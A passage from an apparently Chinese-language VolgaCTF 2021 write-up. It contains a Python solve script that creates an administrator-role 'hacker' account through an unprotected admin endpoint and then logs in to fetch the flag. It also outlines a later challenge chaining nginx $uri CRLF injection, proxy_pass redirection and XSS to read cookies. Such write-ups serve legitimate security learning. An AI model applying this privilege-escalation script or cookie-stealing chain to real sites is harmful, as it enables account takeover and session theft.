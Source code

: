 ```python

def authN(s, auth_url, user, password):
   data = {'csrf_token': get_csrf(s, auth_url),
           'username': user,
           'password': password,
           'submit': "Sign In"
           }
   resp = s.post(auth_url, data=data)

def create_mulicious_user(s, email, username, password):
   url = host+'/admin/user/new/'
   s.get(url)
   files = {'email': (None, email), 'username': (None, username),
            'password_hash': (None, generate_password_hash(password)), 'role': (None, '2')}
   x = s.post(url, files=files)
   return True

host = 'http://localhost:5000'
def hack():
   with requests.Session() as s:
       #s.proxies.update({'http':'http://127.0.0.1:8080'})
       email = 'hacker@volgactf.ru'
       username = 'hacker'
       password = 'hacker'
       create_mulicious_user(s, email, username, password)
       authN(s,host+'/login', username, password)
       print(get_flag(s))



if __name__ == '__main__':
   hack()

```





## 0x05 Static Site

https://static-site.volgactf-task.ru/

[static-site.zip](https://q.2021.volgactf.ru/files/27aa6c0c9a36d9cc5e81486bf0f7cd65/static-site.zip)

中间件安全

作者出题想法来源：[Middleware, middleware everywhere - and lots of misconfigurations to fix](https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/)



但是题目没有太难，考察nginx $uri错误使用导致的CRLF，配合proxy_pass造成重定向，控制返回内容利用xss读取cookie。
